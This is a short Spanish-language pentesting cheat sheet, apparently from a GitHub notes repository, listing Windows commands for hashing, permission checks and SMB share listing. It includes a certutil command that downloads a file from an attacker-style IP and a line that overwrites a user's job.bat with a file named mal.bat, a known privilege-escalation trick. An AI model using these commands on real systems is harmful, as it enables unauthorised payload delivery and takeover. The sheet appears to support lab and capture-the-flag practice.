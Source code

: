 ### Certutil 

Esta herramienta es altamente detectada por windows ten cuidado...


```
certutil.exe -urlcache -split -f http://10.10.14.80:8000/iisfinal.txt iisfinal.txt

```

Hash MD5 de cualquier archivo

```
CertUtil -hashfile CustomerManagerService.exe MD5
```

## HASH SHA512

Para sacar el hash de un archivo

```
Get-FileHash -Path "C:\ruta\al\archivo.txt" -Algorithm SHA512 | Select-Object Hash
```

## Permisos de archivos

Para esto usa icacls

![image](https://github.com/gecr07/Acordeon/assets/63270579/4fd4f074-f35d-4015-9871-a40397c94292)


```
icacls C:\Users\tony\appdata\local\job\job.bat
```

## Copiar un archivo y remplazar

Si existe lo remplazara

```
copy /Y mal.bat C:\Users\tony\appdata\local\job\job.bat
```

## Smb

Para ver los shares disponibles de una ip puedes usar:

![image](https://github.com/gecr07/Acordeon/assets/63270579/c61816ce-e938-4189-b6c1-9aab84145b70)


```
net view \\10.10.14.80
```

Ahora para ver que hay dentro el dir jala igualmente.

```
dir \\10.10.14.80\smbFolder
```
## SMB NULL sessions
